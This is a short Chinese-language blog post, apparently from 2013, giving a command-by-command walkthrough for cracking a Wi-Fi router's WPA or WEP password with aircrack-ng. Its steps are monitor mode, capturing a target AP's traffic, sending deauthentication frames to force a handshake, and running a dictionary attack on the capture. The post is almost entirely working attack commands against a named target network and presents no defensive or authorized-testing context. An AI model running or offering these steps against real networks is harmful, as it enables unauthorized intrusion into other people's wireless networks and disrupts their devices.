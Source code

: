 ```yaml
---
layout: post
title:  "破解无线路由密码"
date:   2013-06-18 16:18:55 +0800
categories: blog
tags:   [linux]
---
```

## 破解WPA密码

## 准备网络

    ifconfig
    ifconfig eth0 192.168.0.133 netmask 255.255.255.0
    route add default gw 192.168.0.3
    echo 8.8.8.8 >>/etc/resolv.conf
    ping www.163.com

### 使用的软件是aircrack-ng:          

    apt-get install aircrack-ng

### 过程

    iwconfig
    airmon-ng start wlan0
    airodump-ng mon0   查看网络中的无线AP信息
    airodump-ng mon0 -w ddd -c 11 --bssid 00:1E:88:88:88:88（目标AP的MAC）
           注：如果是WEP加密，抓5000-25000个包，而且不用下面的命令
    aireplay-ng -0 10 -a 00:1E:2A:3D:4C:88 -c BC:77:37:D9:87:C6 mon0  （抓握手包）
           注：破解WPA需要该步
    aircrack-ng -w d.txt ddd*.cap
           注：关键是字典文件，上帝保佑了。。。。。。。。。
               WEP加密：aircrack-ng -z -b 00:1E:88:88:88:88 dddd*.cap


参考：             
[http://linux.cn/thread/10864/1/1/](http://linux.cn/thread/10864/1/1/){:target="_blank"}            
[http://www.backtrack-linux.org/](http://www.backtrack-linux.org/){:target="_blank"}            
[http://www.aircrack-ng.org/doku.php?id=faq#where_can_i_find_good_wordlists](http://www.aircrack-ng.org/doku.php?id=faq#where_can_i_find_good_wordlists){:target="_blank"}